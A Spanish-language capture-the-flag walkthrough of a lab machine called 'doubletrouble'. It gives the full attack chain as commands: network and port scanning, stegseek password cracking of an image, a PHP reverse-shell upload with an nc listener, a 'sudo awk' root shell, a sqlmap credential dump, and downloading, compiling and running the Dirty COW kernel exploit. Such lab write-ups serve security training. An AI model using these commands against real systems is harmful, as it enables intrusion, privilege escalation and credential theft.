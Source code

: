 **1.- Escaneo de la red local:**
Para escanear la red local para identifica la IP de la máquina, para ello usaremos el siguiente comando:

arp-scan --localnet
<img src="Pasted image 20240225174411.png">

**2.- Realizamos un escaneo de puertos**
Para realizar el escaneo de puertos hay que hacer un nmap.

nmap -sS -sV (ip de la máquina)
![[Pasted image 20240225174515.png]]

Hemos podido localizar que tiene el puerto 80 abierto, podemos decir que tiene una web corriendo.
Para cojer un poco más de información sobre la web relizaremos el siguiente comando.
![[Pasted image 20240225174632.png]]

una vez tenemos información sobre ella, entraremos a la web desde el navegador.
![[Pasted image 20240225174712.png]]

**3.- Mirar archivos o directorios ocultos**

Miramos si hay archivos ocultos gracias a la herramienta gobuster. Para ello introducimos el siguiente comando.

gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://192.168.1.76
![[Pasted image 20240225175144.png]]

vemos una carpeta un tanto sospechosa, esta se llama /secret. Para abrirla la pondemos en el navegador al lado de la ip

(ip)/secret
![[Pasted image 20240225175309.png]]

vemos que hay una imagen, la descargamos para analizarla. Para ello usaremos la siguiente herramienta stegseek.

stegseek doubletrouble.jpg -wl /usr/share/wordlists/rockyou.txt -xf img
![[Pasted image 20240225175639.png]]

podemos ver que se nos ha descargado una imagen. Miramos el contenido de la imagen. Para ello usaremos el cat.

cat img
![[Pasted image 20240225175806.png]]

Esto nos da las credenciales del login de la web. Entonces iniciaremos sesión.
![[Pasted image 20240226225242.png]]


y entramos a la configuracion del usuario
![[Pasted image 20240226225312.png]]

aqui subiremos un archivo php para ejecutar una reverse shell

al subirlo nos saldrá esto, entonces tendremos que ir a la carpeta /uploads/users
![[Pasted image 20240226225539.png]]
![[Pasted image 20240226225600.png]]

a partir de esto nos pondremos escuchando con netcat en el puerto 4444

nc -lnvp 4444
![[Pasted image 20240226225700.png]]

ahora le daremos click al archivo que acabamos de subir y obtendremos conexion
![[Pasted image 20240226225839.png]]
ya tenemos control, para ver la ruta haremos "script /dev/null -c bash"
![[Pasted image 20240226225948.png]]

ejecutamos el comando sudo -l para ver si tenemos algun permiso de administrador, y nos damos cuenta de que nos muestra el siguiente mensaje
![[Pasted image 20240226230104.png]]
Para escalar privilegios tendremos que escribir el siguiente comando
sudo awk 'BEGIN {system("/bin/bash")}'
![[Pasted image 20240226230216.png]]
con esto ya tenemos permiso de administrador, nos situamos en la carpeta root y vemos que tenemos otra ova, entonces la descargamos en nuestro ordenador local con el comando python -m http.server 80

y la ejecutamos
vemos que tenemos un login de administrador
![[Pasted image 20240226230456.png]]

para sacar las passwords de administrador ejecutaremos el siguiente comando
sqlmap -u http://10.0.0.28/index.php --forms --current-db -D doubletrouble -T users --dump
![[Pasted image 20240226231147.png]]

ahora entraremos via ssh en lel usuario clapton
![[Pasted image 20240226231309.png]]

ahora cojeremos un exploit para poder escalar privilegios: [https://github.com/FireFart/dirtycow/blob/master/dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c)

los descargaremos desde local con el comando wget https://github.com/FireFart/dirtycow/blob/master/dirty.c
![[Pasted image 20240226231534.png]]

lo subiremos a un servidor python y lo descargaremos en el ssh
![[Pasted image 20240226231605.png]]

![[Pasted image 20240226231736.png]]

ya de paso vemos que tenemos un txt y lo abrimos y vemos que es la primera flag
![[Pasted image 20240226231812.png]]

una vez tenemos el exploit lo compilamos con el siguiente comando
gcc -pthread dirty.c -o dirty -lcrypt
![[Pasted image 20240226232420.png]]

una vez compilado lo ejecutamos
![[Pasted image 20240226232504.png]]
elegimos nueva contraseña y nos da un usuario llamado firefart que entraremos via ssh y escribiremos la nueva contraseña
![[Pasted image 20240226232623.png]]
 y miramos que contiene y ejecutamos la flag
 ![[Pasted image 20240226232701.png]]
